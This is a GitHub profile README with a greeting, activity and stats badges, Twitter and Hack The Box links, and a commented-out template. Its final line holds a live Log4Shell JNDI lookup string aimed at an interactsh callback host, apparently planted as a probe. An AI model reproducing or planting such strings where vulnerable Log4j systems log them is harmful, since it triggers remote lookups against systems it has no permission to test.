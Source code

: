 ### Hi 👋🦆     [![wakatime](https://wakatime.com/badge/user/7ba5a68a-56a6-4dc6-8013-858ad60eb0b8.svg)](https://wakatime.com/@7ba5a68a-56a6-4dc6-8013-858ad60eb0b8)    <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> 
<a href="https://app.hackthebox.com/profile/435777" target="blank"><img src="https://www.hackthebox.eu/badge/image/435777" alt="lwlx on Hack The Box" /></a> 


[![Lawlez's GitHub Stats](https://github-readme-stats.vercel.app/api?username=Lawlez&hide=issues&count_private=true&show_icons=true&include_all_commits=true)](https://dev.lwlx.xyz)

<!--[![willianrod's wakatime stats](https://github-readme-stats.vercel.app/api/wakatime?username=0x&layout=compact)](https://dev.lwlx.xyz)-->

[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=Lawlez&layout=compact&langs_count=7&hide=html)](https://dev.lwlx.xyz)
  
<!--
**Lawlez/Lawlez** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.
<p align="left"> <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> </p>
Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
${jndi:ldap://c6tfggt2vtc0000gkj1ggdp8aecyyyyyb.interactsh.com/ lwlx}
